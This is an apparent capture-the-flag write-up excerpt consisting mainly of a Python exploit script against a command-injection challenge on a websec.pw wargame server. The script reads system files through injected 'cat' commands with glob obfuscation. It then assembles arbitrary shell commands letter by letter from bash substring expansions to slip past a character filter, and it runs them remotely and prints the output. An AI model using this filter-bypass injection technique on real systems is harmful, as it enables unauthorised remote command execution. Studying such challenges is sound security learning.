 With these facts, I made the following exploit script to automate these. 

```python
{% raw %}
import requests
import sys

motd = requests.get("http://www.websec.pw:9090/index.php?f=;cat /?tc/??t?").content
index = requests.get("http://www.websec.pw:9090/index.php?f=;cat ?????.???").content
initial = "http://www.websec.pw:9090/index.php?f=;act=`cat ?????.???`;c=`cat /?tc/??t?`;"
cache = {}

def main():
	command = sys.argv[1]
	body = ""
	execution = ""
	counter = 0
	for letter in command:
		if letter.isdigit():
			counter += 1
			num = int(letter)
			if num == 0:
				body += "{}=\"${{%23}}\";".format(counter*"c")
			else:
				body += "{}=\"$(({}))\";".format(counter*"c", "%2b".join(["${%23%23}"]*num))
			execution += "$" + counter * "c"
			continue
        # A little ugly but you will understand it in `Regex Hero 2`.
		if letter == "P":
			idx1 = index.find(letter)	
			idx2 = len(index) - idx1 - 2
			body += "{}=\"${{{}%23{}}}\";".format("actt", "act", idx1 * "?")
			body += "{}=\"${{{}%25{}}}\";".format("acttt", "actt", idx2 * "?")
			execution += "$acttt"
			continue
		idx1 = motd.find(letter)
		if idx1 == -1:
			print("cannot find {}".format(letter))
			return
		idx2 = len(motd) - idx1 - 2
		if letter not in cache:
			counter += 1
			body += "{}=\"${{{}%23{}}}\";".format(counter*"t", "c", idx1 * "?")
			body += "{}=\"${{{}%25{}}}\";".format(counter*"a", counter * "t", idx2 * "?")
			execution += "$" + counter * "a"
			cache[letter] = "$" + counter * "a"
		else:
			execution += cache[letter]

	# Run
	print "Command Output: {}".format(requests.get(initial + body + execution).content)

if __name__ == "__main__":
	main()
{% endraw %}
```
